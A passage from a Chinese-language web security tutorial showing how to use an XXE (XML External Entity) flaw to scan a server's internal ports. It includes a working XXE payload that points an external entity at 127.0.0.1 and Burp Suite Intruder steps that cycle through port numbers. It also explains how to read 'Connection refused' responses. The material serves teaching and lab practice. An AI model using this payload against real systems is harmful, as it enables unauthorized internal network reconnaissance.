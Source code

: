 > 若关闭则显示 `Connection refused`
>
> 开启则每种服务反馈的信息不同

http:// 协议漏洞验证

```
http://hello.com
```

## 5 利用 BurpStuite 对目标服务器进行端口扫描

开启拦截，在 HackBar 提交端口扫描 payload

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE hello [
<!ELEMENT hello (nb,xxe)>
<!ELEMENT nb	(#PCDATA)>
<!ENTITY xxe SYSTEM "http://127.0.0.1:80">
]>
<hello>
    <xxe>&xxe;</xxe>
    <nb>666</nb>
</hello>
```

将截取的请求包发送到 `Intruder` ，清除 `payload` 位置

选中端口号添加 `payload` 位置

```
http://127.0.0.1:§80§
```

配置 `payload`

`payload` 类型选择 `数值` 

![payload 类型选择 数值](./../../../../images/XML%20External%20Entity%20(XXE)%20Processing/payload%20%E7%B1%BB%E5%9E%8B%E9%80%89%E6%8B%A9%20%E6%95%B0%E5%80%BC.png)

选择端口扫描范围

![选择端口扫描范围](./../../../../images/XML%20External%20Entity%20(XXE)%20Processing/%E9%80%89%E6%8B%A9%E7%AB%AF%E5%8F%A3%E6%89%AB%E6%8F%8F%E8%8C%83%E5%9B%B4.png)

取消编码

![取消编码](./../../../../images/XML%20External%20Entity%20(XXE)%20Processing/%E5%8F%96%E6%B6%88%E7%BC%96%E7%A0%81.png)

检索含有 `Connection refused` 的响应包

> 若有 `Connection refused` ，则端口未开放
